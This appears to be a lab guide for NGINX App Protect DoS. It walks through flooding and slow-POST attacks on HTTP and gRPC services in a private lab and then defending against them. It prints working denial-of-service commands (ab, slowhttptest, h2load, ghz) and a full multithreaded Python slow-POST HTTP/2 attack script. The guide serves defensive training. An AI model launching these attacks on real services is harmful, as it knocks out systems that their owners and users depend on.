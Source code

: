Introduction
============
This lab will familiarize you with Denial of Service attaacks and help you protect HTTP and gRPC services against them using NGINX AppProtect Denial of Service (NAP DoS).

You will accomplish a few things as part of this lab:

#. Attack and take down an unprotected HTTP Service
#. Install and configure NAP DoS 
#. Teach NAP DoS about legitimate traffic to establish baseline
#. Protect HTTP services from Flood and Slow Loris attacks
#. Protect gRPC services from Flood and Slow Loris attacks
#. Observe and monitor attacks from NAP DoS metrics pulled into an ELK Stack (Elastic Search, Logstash, Kibana)
#. Monitor live activity with the built-in NAP DoS Dashboard

Lab Topology
============
This lab uses a UDF (Unified Demonstration Framework) to stand up the set of VMs described below.  Additionally there is an image that show traffic flow through the environment.

Clients
    - Legitimate Traffic -- Contains scripts to act as legitimate client traffic -- 10.1.1.10
    - Attacker -- Contains scripts for DoS attacks to act as bad actor client traffic -- 10.1.1.11
Load Balancers
    - NGINX LB -- L4 edge load balancer that distributes traffic between two NAP DoS instances and appropriate internal ports -- 10.1.1.4
    - NAP DoS 1 -- first L7 load balancer that maps internal ports to backend services -- 10.1.1.6
    - NAP DoS 2 -- second L7 load balancer that maps internal ports to backend services -- 10.1.1.7
    - Arbitrator --  Orchestrates multiple NAP DoS instances to sync attack starts and stops -- 10.1.1.12
Backends
    - JuiceShop -- Sample eCommerce site to serve as a generic backend application -- 10.1.1.13
    - gRPC Application -- "RouteGuide" gRPC service running in a container environment -- 10.1.1.9
Monitoring
    - ELK -- containerized ELK stack pre-configured to monitor NAP DoS instances -- 10.1.1.3
.. image:: ../_static/intro_topology.png

Attack Scripts
============
All attack scripts are located in ``/scripts`` folder on the "Attacker" VM.

HTTP/1 Flood Attack -- ``/scripts/http1flood.sh``
    - A type of DoS attack in which the attacker manipulates HTTP and sends unwanted requests in order to attack a web server or application.
    - Instead of using malformed packets, spoofing and reflection techniques, HTTP floods require less bandwidth to attack the targeted servers.
    - Typically will target the most resource intensive endpoints on the service.  
    - ``ab -l -r -n 20000000 -c 10000 -d -s 120 http://10.1.1.4:600/`` 
    - This attack uses Apache Benchmark (ab) to send 20 million requests with 10k concurrent connections w/ 120 second timeout looped indefinitely.
    
Slow POST HTTP Attack (Slow Loris) -- ``/scripts/slow_post_http1.sh``
    - A type of attack that relies on the fact that the HTTP protocol, by design, requires requests to be completely received by the server before they are processed.
    - Sends a legitimate POST header with a ``Content-Length`` header specifying the size of the message body.  Attacker sends the actual message body at a slow rate or not at all.
    - Attacker then opens thousands of such connections exhausting the logical resources for concurrent connections rather than bandwidth or processing power, allowing the attacker to efficently take out a web server.
    - ``slowhttptest -c 50000 -B -g -o my_body_stats -l 600 -i 5 -r 1000 -s 8192 -u http://10.1.1.4:600/api/Feedbacks/ -x 10 -p 3``
    - 50k connections with 5 second delay in message body for 600 seconds, 1k connections per second, 8192 byte Content-Length header, 10 byte follow-up data, 3 second timeout for HTTP response on probe connection.  Sends delayed POST request in message body to /api/Feedbacks/ endpoint on JuiceShop service.
    
HTTP/2 Flood Attack -- ``/scripts/http2flood.sh``
    - Like the HTTP 1 Flood Attack, but this uses the HTTP/2 protocol.
    - gRPC uses HTTP/2 under the hood so we are targeting the gRPC endpoint with a simple HTTP/2 flood attack.
    - ``h2load -n 10000 -c 1000 http://10.1.1.4:500/routeguide.RouteGuide/GetFeature``
    - Uses h2load to launch an attack using 10000 requests with 1000 clients on the "RouteGuide" gRPC service.

gRPC Message Flood Attack -- ``/scripts/grpcflood.sh``
    - Increasingly, we have seen more DoS attacks using HTTP and HTTP/2 requests or API calls to attack at the application layer (Layer 7), in large part because Layer 7 attacks can bypass traditional defenses that are not designed to defend modern application architectures.
    - Detecting DoS attacks on gRPC applications is extremely hard, especially in modern environments where scaling out is performed automatically. A gRPC service may not be designed to handle high‑volume traffic which makes it an easy target for attackers to take down.
    - Based on statistical anomaly detection, NGINX App Protect DoS successfully identifies bad actors by source IP address and TLS fingerprints, enabling it to generate and deploy dynamic signatures that automatically identify and mitigate these specific patterns of attack traffic. This approach is unlike traditional DoS solutions on the market that detect when a volumetric threshold is exceeded. 
    - ``ghz --insecure -c 10000  -n 100000 -t 2s -z 2s --import-paths ./routeguide --proto route_guide.proto --call routeguide.RouteGuide.GetFeature 10.1.1.4:500``
    - Launch the ghz gRPC benchmarking tool against the “RouteGuide” GRPC service using 10000 request workers with 100000 requests, with a timeout and duration of 2 seconds.

Slow POST gRPC Attack -- ``/scripts/slow_post_http2.sh``
    - The attacker supplies several concurrent slow POST gRPC requests that exceed the server capacity of concurrent requests.
    - This attack sends 100 streams of a POST request to /testing using gRPC

.. code-block:: bash
    #!/bin/bash
    function int_handler {
    pkill -9 -e python
    exit
    }

    trap int_handler INT


    while true; do
    python slow_post.py  > /dev/null 2>&1 &
    sleep 20
    pkill -9 -e python

    done

.. code-block:: python

    import ssl
    import socket
    from time import sleep
    from threading import Thread

    def do_attack():
        connection_preface = "PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n"

        # Settings Frame
        settings_frame = "000018040000000000000400ffffff000200000001000300007d00000500004000"
        settings_ack = "000000040100000000"

        # Headers frame sending a POST request to /testing with content-length of 999999999 and end_stream flag set to false
        headers_frame = "00001d0104000000018744866125424d54df834188081713415c2b85cf5c877df7df7df7df7f"

        # Data frame containing a single "A" character as payload
        data_frame = "00000100000000000141"

        connection_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connection_socket = ssl.wrap_socket(connection_socket)
        connection_socket.context.set_ciphers('AES128-GCM-SHA256')
        connection_socket.context.set_alpn_protocols(['h2'])
        connection_socket.connect(('10.1.1.4', 443))
        connection_socket.send(connection_preface)
        connection_socket.send(settings_frame.decode('hex'))
        connection_socket.send(settings_ack.decode('hex'))

        # Open 100 streams (MAXIMUM_CONCURRENT_STREAMS received from Apache) by sending header frames
        for i in range(1, 200):
            if i % 2 == 0:
                continue
            headers_frame = headers_frame.replace(headers_frame[10:18],str(i).zfill(8))
            connection_socket.send(headers_frame.decode('hex'))

        while True:
            for i in range(1, 200):
                if i % 2 == 0:
                    continue
                data_frame = data_frame.replace(data_frame[10:18], str(i).zfill(8))
                connection_socket.send(data_frame.decode('hex'))
            sleep(20)

    if __name__ == '__main__':
        for i in range(2000):
            attack_thread = Thread(target=do_attack)
            attack_thread.start()
    
    




    


    
    
